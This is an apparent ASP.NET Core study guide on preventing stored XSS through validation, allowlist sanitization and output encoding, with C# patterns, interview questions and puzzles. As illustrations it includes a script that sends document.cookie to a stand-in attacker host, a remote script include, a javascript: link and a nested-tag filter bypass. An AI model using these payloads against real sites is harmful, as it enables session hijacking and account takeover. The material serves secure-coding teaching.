

# 4.173 — Input Sanitization: Preventing XSS at the Model Binding Layer

## PART 0 — Navigation & Context

```text
ASP.NET Core Domain Hierarchy
├── Security & Identity
│   ├── 4.126 Cookies & Session Security
│   ├── 4.173 Input Sanitization & XSS ◄ YOU ARE HERE
│   └── 4.214 Output Encoding & CSP
└── Data Flow
    └── 4.100 Model Binding Pipeline
```

**What you need before this:**
- A firm understanding of the ASP.NET Core Model Binding process [[4.100 — Model Binding: Sources and the Binding Algorithm]].
- Knowledge of basic validation principles (e.g., FluentValidation or DataAnnotations) to understand the difference between *validating* shape and *sanitizing* content [[4.167 — DataAnnotations Validation in ASP.NET Core]].
- A baseline understanding of what Cross-Site Scripting (XSS) is, specifically Stored XSS vs Reflected XSS.

**What this unlocks after:**
- Designing highly secure enterprise APIs that safely accept Rich Text HTML input (e.g., CMS editors, Patient Medical Notes, E-Commerce Reviews).
- The ability to cleanly integrate powerful HTML Allowlist Sanitizers into the ASP.NET Core request pipeline without corrupting legitimate data.

**Why this matters to a production engineer at scale:**
Most developers believe that returning an API response with `application/json` makes them immune to XSS. This is a fatal misconception. While a JSON response cannot inherently execute a script in a browser's network tab, the data you accept and store in your database is often rendered *later* by completely different applications. 
An e-commerce API might accept a product review from a mobile app via JSON. If that review contains `<script>fetch('http://hacker.com/steal?cookie='+document.cookie)</script>` and the API stores it blindly, the mobile app is fine. But when the company's internal ASP.NET MVC Admin Dashboard renders that review on the screen for a Customer Service Rep, the script executes, stealing the Admin's session cookie and compromising the entire platform.
Understanding exactly *when* to sanitize (Input vs Output), *how* to sanitize (Allowlist vs Blocklist), and *where* in the ASP.NET Core pipeline this belongs (Model Binding, Custom Formatters, or Validation rules) is the difference between an impenetrable API and a critical CVE vulnerability.

---

## PART 1 — The Core Mental Model

> **The Fundamental Rule**
> **ASP.NET Core Model Binding is completely agnostic to XSS; it faithfully deserializes exact raw strings from JSON payloads or Form Data directly into your DTO properties without encoding or stripping HTML tags. To prevent Stored XSS, you must either enforce strict formatting Validation (rejecting HTML entirely), apply Input Sanitization via an Allowlist (stripping bad HTML but keeping safe HTML), or guarantee strict Output Encoding when the data is rendered. Validation rejects data; Sanitization mutates data.**

**The Plain-Language Analogy**
Imagine a high-security document storage facility (Your Database).
Customers (API Clients) mail in packages containing documents.
**Model Binding** is the mailroom clerk. The clerk opens the box, takes out whatever is inside, and hands it to the filing department exactly as it arrived. If a customer sent a box containing a live grenade, the clerk puts a live grenade in the filing cabinet.
**Validation** is a guard inspecting the package. If the guard sees a grenade, they reject the entire package and mail it back to the customer (HTTP 400).
**Sanitization** is a bomb squad technician. If a customer sends a ticking time bomb inside a teddy bear, the technician carefully cuts the bomb out, throws it away, sews the teddy bear back up, and puts the safe teddy bear in the filing cabinet.
**Output Encoding** (The primary defense) is putting the entire filing cabinet behind thick bulletproof glass. Even if a grenade gets filed, when someone goes to look at it, the glass prevents the explosion from hurting them.

**The Taxonomy Diagram**



---

## PART 2 — Deep Mechanics

### 2.1 — Pipeline Positioning & Vulnerability Window
ASP.NET Core fundamentally separates the deserialization of data (Model Binding) from the validation of data.
```
──► HTTP Request (JSON body)
    ──► InputFormatter (System.Text.Json)
        ──► Model Binding (Raw strings assigned to DTO)
            ──► Validation (DataAnnotations / FluentValidation)
                ──► Controller Action
                    ──► Database
```
If you do nothing, the string `` makes it all the way to the Database. This is called a **Stored XSS payload**.

### 2.2 — Validation vs. Sanitization
**Validation:** Looking at the input and returning HTTP 400 if it breaks a rule.
**Sanitization:** Modifying the input string in-memory to remove dangerous parts before saving it.

For standard text fields (First Name, Address, Instructions), **Validation** is vastly superior. You should reject any input containing HTML tags using Regex.
For Rich Text Editors (Blog Posts, Formatting CMS), you cannot reject HTML, because you *need* the `<b>` and `<i>` tags. Here, you must use **Sanitization**.

### 2.3 — The Fatal Flaw of "Input Encoding"
A massive mistake made by developers is attempting to call `HttpUtility.HtmlEncode()` during Model Binding or inside a DTO setter.

// ⚠️ WRONG
```csharp
public string Bio {
    get => _bio;
    set => _bio = HttpUtility.HtmlEncode(value); // Converts <script> to &lt;script&gt;
}
```

Why is this fatal? 
1. **Double Encoding:** If the data is encoded in the DB, and then the Razor view uses standard `@Model.Bio` (which also encodes), the user sees `&amp;lt;script&amp;gt;` on their screen.
2. **Context Loss:** HTML Encoding is context-specific. Encoding for an HTML body is different from encoding for an HTML Attribute, which is different from a JavaScript variable context. You cannot know the output context at the time of input binding.
**Rule:** Store data in its raw, canonical form (unless stripping via an Allowlist). Encode *exclusively* at the output layer.

### 2.4 — Allowlist vs Blocklist Sanitization
If you must accept HTML, you must sanitize it.
**Blocklist (Anti-Pattern):** Writing code that says `value.Replace("<script>", "")`. Attackers bypass this instantly using `<sCript>`, or ``, or `javascript:alert()`.
**Allowlist (Industry Standard):** Using a library that parses the entire HTML DOM, destroys everything, and explicitly rebuilds only the tags and attributes explicitly permitted (e.g., `<b>`, `<a>`, `href`). The industry standard for .NET is the `Ganss.Xss.HtmlSanitizer` NuGet package.

### 2.5 — Custom Model Binders for Sanitization
If you want to seamlessly sanitize incoming data before it even hits the DTO, you can inject a custom `IModelBinder` or configure the JSON deserializer. However, doing this globally is incredibly dangerous because it masks data mutations from the developer. Sanitization should be explicit.

---

## PART 3 — Production Code Patterns

### Pattern 1: Explicit Property-Level Sanitization (Rich Text)
The safest and most explicit way to sanitize HTML is to encapsulate the sanitization logic inside the DTO property setter. This ensures that no matter how the object is constructed (Model Binding, deserialization, manual instantiation), the data is scrubbed.

```csharp
using Ganss.Xss; // HtmlSanitizer library

public sealed class UpdateArticleDto
{
    // A thread-safe, pre-configured sanitizer instance
    private static readonly HtmlSanitizer _sanitizer = new HtmlSanitizer();
    
    private string _htmlContent = string.Empty;

    public string HtmlContent
    {
        get => _htmlContent;
        set 
        {
            // Null coalescing to prevent exceptions
            var rawValue = value ?? string.Empty;
            
            // The sanitizer destroys <script>, <object>, onclick=, etc.
            // It preserves <b>, <i>, <p>, etc.
            _htmlContent = _sanitizer.Sanitize(rawValue);
        }
    }
}
```

### Pattern 2: Strict Rejection via FluentValidation (Plain Text)
If a field is not supposed to have HTML (e.g., a shipping instruction or a first name), do not sanitize it. Reject it. This trains API consumers to send clean data and prevents silent data corruption.

```csharp
public class OrderDtoValidator : AbstractValidator<OrderDto>
{
    public OrderDtoValidator()
    {
        RuleFor(x => x.ShippingInstructions)
            // Regex strictly allows alphanumeric, spaces, and basic punctuation.
            // Automatically rejects <, >, &, which kills all HTML/XSS payloads.
            .Matches(@"^[a-zA-Z0-9\s.,\-\'\n\r]*$")
            .WithMessage("Shipping instructions contain invalid characters. HTML is not permitted.");
    }
}
```
*HTTP Result:* Attacker sends `<script>`. API immediately returns HTTP 400 Bad Request.

### Pattern 3: Custom JsonConverter for Global String Trimming/Sanitization
Sometimes enterprise architectures mandate that *all* strings must be stripped of specific characters at the edge, before DTO instantiation. You can hook into `System.Text.Json`.

```csharp
public class AntiXssStringConverter : JsonConverter<string>
{
    public override string Read(ref Utf8JsonReader reader, Type typeToConvert, JsonSerializerOptions options)
    {
        var rawValue = reader.GetString();
        if (string.IsNullOrEmpty(rawValue)) return rawValue;

        // Strip dangerous script tags globally across all DTO strings
        // (Note: An Allowlist HtmlSanitizer here is safer, but expensive for EVERY string)
        var sanitized = Ganss.Xss.HtmlSanitizer.Default.Sanitize(rawValue);
        return sanitized;
    }

    public override void Write(Utf8JsonWriter writer, string value, JsonSerializerOptions options)
    {
        writer.WriteStringValue(value);
    }
}

// Program.cs
builder.Services.ConfigureHttpJsonOptions(options =>
{
    options.SerializerOptions.Converters.Add(new AntiXssStringConverter());
});
```
*(Warning: Global serialization hooks impact performance. See Part 5).*

### Pattern 4: API Responses & Output Encoding (The Ultimate Defense)
Sanitization is fallible. Attackers find zero-days in HTML parsing logic. Therefore, the ultimate defense against XSS is how you configure your output.

**Scenario A: Returning JSON to an SPA (React/Angular/Vue)**
```csharp
[HttpGet]
public IActionResult GetReview() {
    return Ok(new { Text = "<script>alert(1)</script>" });
}
```
*Security Status:* **SAFE**. Modern SPAs (React) encode variables by default when using JSX `{review.Text}`. The JSON payload is safe. (It only becomes XSS if the SPA developer uses `dangerouslySetInnerHTML`).

**Scenario B: Returning HTML via MVC/Razor Pages**
```html
<!-- SAFE: Razor encodes strings by default. The browser displays the text literally, it does not execute the script. -->
<div>@Model.ReviewText</div>

<!-- 💥 FATAL XSS VULNERABILITY: Bypasses Razor's encoding -->
<div>@Html.Raw(Model.ReviewText)</div> 
```
If you *must* use `@Html.Raw` (e.g., displaying a rich-text blog post), the data passing into it MUST have been rigorously sanitized using Pattern 1.

---

## PART 4 — Gotchas & Anti-Patterns

### Gotcha 1: The "Blocklist" Regex Fallacy
Developers often attempt to write their own Regex to strip `<script>` tags, believing this secures their application.

// ⚠️ FATAL ANTI-PATTERN
```csharp
public string Bio 
{
    set => _bio = Regex.Replace(value, "<script.*?</script>", "", RegexOptions.IgnoreCase);
}
```

// HTTP consequence (wrong path):
// The attacker submits: ``
// The attacker submits: `<a href="javascript:alert('Hacked')">Click Here</a>`
// The regex completely ignores these. The Stored XSS payload is successfully saved to the database.

// ✅ CORRECT CODE
// Never write your own HTML parsing or sanitizing logic. Always use an established, continuously updated Allowlist library like `HtmlSanitizer`.

### Gotcha 2: Confusing CSRF with XSS
Junior developers sometimes believe that applying `[ValidateAntiForgeryToken]` prevents XSS attacks.
**Reality:** Anti-forgery tokens (CSRF) prevent attackers from tricking the user's browser into submitting unauthorized POST requests. They have absolutely zero impact on XSS. An attacker with XSS can simply read the CSRF token from the DOM and then submit requests anyway.

### Gotcha 3: The Markdown Bypass
Applications increasingly use Markdown instead of HTML. Developers assume Markdown is inherently safe.
**Reality:** The standard Markdown specification allows inline HTML! If a user submits `# Hello <script>alert(1)</script>`, most Markdown parsers will faithfully render the script tag into the final HTML output. You must configure your Markdown parser to strictly disable inline HTML or pipe the parser's output through an `HtmlSanitizer` before rendering.

### Gotcha 4: Global Sanitizer Performance Death
A developer discovers `HtmlSanitizer` and decides to write a custom MVC Action Filter that reflects over every property of every DTO and sanitizes every string on every HTTP request.

// HTTP consequence (wrong path):
// `HtmlSanitizer` relies on AngleSharp to spin up an in-memory headless browser DOM to parse and reconstruct the HTML safely. This is incredibly CPU intensive. Running this reflection + DOM parsing loop on every field of a 5,000-line JSON payload drops the API throughput from 10,000 requests per second to 50 requests per second. The application collapses under load.

// ✅ THE FIX:
// Sanitize *only* exactly where necessary. Use simple Regex rejection (Pattern 2) for 99% of fields, and only invoke `HtmlSanitizer` on specific Rich Text properties.

---

## PART 5 — Performance Implications

### Request Pipeline Characteristics

| Sanitization Strategy | CPU Overhead Per Field | Memory Allocations | Recommendation |
|---|---|---|---|
| None (Raw Binding) | 0ms | 0 | Safest for performance. Rely on Razor output encoding. |
| Regex Rejection (FluentValidation) | ~0.01ms | Minimal | Standard for plain-text fields (names, addresses). |
| `HttpUtility.HtmlEncode` at Binding | ~0.05ms | Low | **Anti-Pattern**. Causes Double-Encoding bugs. |
| `HtmlSanitizer` (AngleSharp DOM Parse) | ~0.5ms to 3ms | Massive (DOM Tree) | Use strictly for Rich Text properties. Never apply globally. |

**Performance Verdict:**
Sanitizing HTML is computationally expensive. Because it requires parsing strings into a tree structure, evaluating rules, and serializing back to strings, it generates massive garbage collection pressure. Avoid global binding-layer sanitization unless strictly necessary. Push the responsibility to strict validation (rejection) wherever possible.

---

## PART 6 — Interview Arsenal

### A. The Question Bank

**Question 1:** "Our ASP.NET Core API accepts user comments and returns them as `application/json`. A penetration tester submitted `<script>alert(1)</script>` in the comment field, and it was successfully saved to our database. Is our API vulnerable to XSS?"
- **Average Answer:** "Yes, you have Stored XSS because you didn't sanitize the input."
- **Why That's Insufficient:** It misunderstands how XSS executes. APIs returning JSON cannot execute XSS natively.
- **Great Answer:** "The API itself is not directly vulnerable to executing XSS because the response `Content-Type` is `application/json`, which modern browsers will not execute as HTML. However, we have a Stored XSS *vector*. The vulnerability only triggers if a client application (like a Razor Pages admin portal or a vulnerable React SPA using `dangerouslySetInnerHTML`) consumes this JSON and renders the comment into the DOM without proper output HTML encoding. To mitigate this at the API layer, we should either implement Regex validation to reject markup entirely, or use an Allowlist HTML Sanitizer to strip dangerous tags before persistence."

**Question 2:** "Why shouldn't you just use `HttpUtility.HtmlEncode()` inside your DTO setters to sanitize input?"
- **Average Answer:** "Because it messes up the data in the database."
- **Why That's Insufficient:** Doesn't explain the context-dependency of encoding or the specific bugs it causes.
- **Great Answer:** "Encoding at the input layer is a severe anti-pattern because HTML encoding destroys the canonical nature of the data and creates 'Double Encoding' bugs. If you encode on input, `<` becomes `&lt;`. When an ASP.NET MVC view later renders that data using standard `@Model.Property`, the view engine encodes it *again*, resulting in `&amp;lt;`. Furthermore, encoding is context-specific. A string encoded for an HTML Body context might still be an XSS vector if placed inside a JavaScript variable context or an HTML Attribute context. You must store raw data, and encode strictly at the output layer based on the immediate rendering context."

**Question 3:** "If we have to accept Rich Text HTML from a WYSIWYG editor, how do we prevent XSS without breaking the formatting?"
- **Average Answer:** "Write a Regex to remove `<script>` tags."
- **Why That's Insufficient:** Regex cannot securely parse HTML and is trivially bypassed by attackers.
- **Great Answer:** "We must use an Allowlist-based HTML sanitizer library, such as `Ganss.Xss.HtmlSanitizer`. Unlike Regex blocklists, an allowlist library parses the raw string into a complete DOM tree using a headless engine. It then recursively destroys every node and attribute that is not explicitly present on the strict allowlist (e.g., keeping `<b>` and `<i>`, but destroying `onclick` attributes and `<script>` nodes). It then serializes the safe tree back into a string for storage."

### B. The Trick Questions

**Trick Question:** "If I use FluentValidation to check `.MaximumLength(500)` on a string, does that provide any XSS protection?"
- **The Trap:** Conflating length limits with content sanitization.
- **The Correct Answer:** "No. A severe XSS payload can fit in less than 30 characters (e.g., `<script src=//x.co></script>`). Length validation prevents buffer overflows and denial of service, but provides absolutely zero protection against script injection. You must validate the character *content* (e.g., via Regex)."

**Trick Question:** "Our legacy app uses an old blocklist that removes `<script>` and `javascript:`. What is one way an attacker can bypass this to achieve XSS?"
- **The Trap:** Thinking those two strings are the only way to execute JS.
- **The Correct Answer:** "There are hundreds of bypasses. The most common is using HTML event handlers on legitimate tags. For example, submitting ``. The browser tries to load the image, fails, and executes the JavaScript in the `onerror` attribute. The blocklist completely misses this because there are no `<script>` tags involved."

### C. Red Flags to Avoid
- 🚩 **"I protect my API from XSS by using CORS."** (CORS prevents Cross-Origin AJAX requests, it has absolutely nothing to do with Cross-Site Scripting or HTML injection).
- 🚩 **"I just rely on the frontend developers to encode the data."** (While output encoding is the primary defense, Defense in Depth dictates that APIs should reject obvious malicious payloads at the boundary. Never trust frontend implementations blindly).

---

## PART 7 — Decision Framework

```mermaid
graph TD
    A[Incoming String Payload] --> B{Does the field require Rich HTML?}
    
    B -->|No - Plain Text| C[Use FluentValidation Regex to enforce Alphanumeric shape]
    C --> D[Reject payload with HTTP 400 if '<' or '>' detected]
    
    B -->|Yes - CMS/Blog/Notes| E[Pass string to Allowlist HTML Sanitizer]
    E --> F[Scrub dangerous tags and attributes]
    F --> G[Store Sanitized HTML in Database]
    
    D --> H[End of Pipeline]
    
    G --> I{How is data consumed?}
    
    I -->|JSON API Client| J[Return application/json. Client must render safely.]
    I -->|Razor View @Html.Raw| K[Data is safe because of Input Sanitization]
    
    style A fill:#2d3436,stroke:#fff
    style C fill:#00b894,stroke:#fff
    style E fill:#0984e3,stroke:#fff
    style J fill:#0984e3,stroke:#fff
    style K fill:#00b894,stroke:#fff
```



---

## PART 8 — Self-Check

### A. Conceptual Questions
1. What is the fundamental difference between Validation and Sanitization at the HTTP boundary?
2. Why does returning `<script>alert(1)</script>` inside an `application/json` HTTP response not immediately execute the script in a browser?
3. Explain the "Double Encoding" bug caused by using `HttpUtility.HtmlEncode()` on input.
4. Why is a Regex blocklist replacing `<script>` with `""` entirely ineffective against modern XSS?
5. If an API accepts Markdown instead of HTML, is the system immune to XSS? Why or why not?
6. How does the `Ganss.Xss.HtmlSanitizer` library determine what is safe to keep in an HTML string?
7. Why shouldn't you implement a global custom `JsonConverter` that sanitizes every single string property in every HTTP request?
8. In a Razor Pages application, what is the mechanical difference between `@Model.Text` and `@Html.Raw(Model.Text)`?

### B. Code Puzzles

**Puzzle 1: The Clever Attacker**
```csharp
public void UpdateBio(string bio)
{
    // The developer wrote a custom blocklist
    var clean = bio.Replace("<script>", "").Replace("</script>", "");
    _db.Save(clean);
}
```
*Scenario:* An attacker submits the string `<scr<script>ipt>alert(1)</script>`. What gets saved to the database?
<details>
<summary>Answer</summary>
The string `<script>alert(1)</script>`. The `.Replace` method executes sequentially. It finds the inner `<script>` and removes it. The remaining outer halves collapse into a perfectly valid new `<script>` tag. The blocklist failed spectacularly.
*Fix:* Never use blocklists. Use an Allowlist HTML Sanitizer.
</details>

**Puzzle 2: The Double Trouble**
```csharp
// API Controller
dto.Bio = HttpUtility.HtmlEncode(dto.Bio);
_db.Save(dto.Bio);

// Later, in Razor Page:
<div>@Model.Bio</div>
```
*Scenario:* The user submitted "I love C# & .NET". What exactly appears on the screen when the Razor view renders?
<details>
<summary>Answer</summary>
`I love C# &amp; .NET`. The API encoded the ampersand into `&amp;` and stored it in the database. When the Razor view rendered `@Model.Bio`, the Razor engine HTML-encoded it *again*, converting the `&` inside `&amp;` into `&amp;amp;`. The browser then renders the literal string `&amp;`. This is double-encoding.
*Fix:* Do not encode on input. Store "I love C# & .NET" directly in the database.
</details>

**Puzzle 3: The API Finger-Pointing**
```csharp
[HttpGet("api/comments/{id}")]
public IActionResult GetComment(int id) {
    var text = _db.GetComment(id); // Returns ""
    return Ok(new { comment = text });
}
```
*Scenario:* A React frontend developer consumes this API, uses `dangerouslySetInnerHTML={{ __html: comment }}`, and triggers an XSS payload. The frontend dev blames the backend dev for "serving malware." Who is architecturally responsible?
<details>
<summary>Answer</summary>
Both, but output rendering is primarily the frontend's responsibility. The backend should practice Defense in Depth by validating/rejecting HTML input at the boundary if the field is strictly plain-text. However, the ultimate XSS execution occurred entirely because the frontend explicitly bypassed React's built-in contextual encoding by using `dangerouslySetInnerHTML`. Output context defines encoding rules.
</details>

---

## PART 9 — Connections & Resources

### A. Related Topics Table

| Topic | Why It Connects |
|---|---|
| [[4.214 — XSS Prevention: Output Encoding and Content Security Policy]] | The companion to this topic. Output encoding is the primary, mandatory defense against XSS. |
| [[4.167 — DataAnnotations Validation in ASP.NET Core]] | Standard validation tools that can be used with Regular Expressions to reject HTML shape entirely. |
| [[4.100 — Model Binding: Sources and the Binding Algorithm]] | The exact pipeline where the raw strings enter the ASP.NET Core application before validation executes. |

### B. Books

| Book | Chapters | Why These Chapters |
|---|---|---|
| ASP.NET Core Security | Chapter 4: Cross-Site Scripting | Extremely detailed breakdowns of DOM parsing allowlists vs Regex blocklists. |
| Pro ASP.NET Core 6 | Chapter 30: Advanced Security | Covers the interaction between Model Binding and the HtmlEncoder classes. |

### C. Essential Articles & Docs
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [Microsoft Docs: Prevent Cross-Site Scripting in ASP.NET Core](https://learn.microsoft.com/en-us/aspnet/core/security/cross-site-scripting)
- [GitHub: Ganss.Xss.HtmlSanitizer (Industry Standard Library)](https://github.com/mganss/HtmlSanitizer)

> [!NOTE]
> **Template Meta-Note**
> Part 0: Context & Prerequisites. Part 1: Core Mental Model. Part 2: Deep Mechanics & Pipeline. Part 3: Production Code. Part 4: Gotchas. Part 5: Performance. Part 6: Interview Arsenal. Part 7: Decision Framework. Part 8: Puzzles. Part 9: Resources.
